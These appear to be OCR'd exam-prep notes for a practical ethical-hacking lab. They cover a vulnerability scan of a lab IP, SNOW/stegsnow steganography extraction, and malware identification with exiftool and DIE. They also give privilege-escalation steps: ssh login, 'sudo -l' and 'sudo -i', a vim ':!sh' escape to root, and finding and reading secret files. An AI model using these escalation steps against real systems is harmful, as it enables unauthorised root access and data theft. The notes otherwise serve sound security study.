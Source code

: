 Scans Tasks New Task. Select target 192.168.44.32 . Choose scan configuration. 

Run the Task: 

Start the scan. 

View the Report: 

Scans Reports View the report. Sort vulnerabilities by severity. 

File Steganography: 
-> SNOW.EXE -C -p "pass" filename.txt 

->snow -C -p "<password>" <filename>.txt (then it will show the 

content of file.txt content) (copy the file to the snow file location if necessary) 

-> stegsnow -p password -C restricted.txt output.txt (kali) 

Image Steganography: 

-> decode using OpenStego 

Privilege Escalation: 

-> scan the network for remote login(ssh/telnet) 

-> ssh test@ip 

->check sudo privileges : sudo –l 

-> swith to root if possible: sudo –i 

->cd/ 

-> ls –IR 

->if sudo vim allowed then: 
-> press : then type :!sh or :!bash 

----or-- 

Picture 

:!whoami                                                               

[No write since last change] 

root 

->To get the filepath: find . -name secret.txt 

-> find / -name "test.txt" 2>/dev/null 

->Component of the file: cat givenfilePath (ex- home/cehprac/secret.txt) 

 

Version of Malware Sample: Malware Analysis Tools\Static Malware Analysis Tools\Packaging and Obfuscation Tools 

-> use exiftool mal.file 

-> DIE 
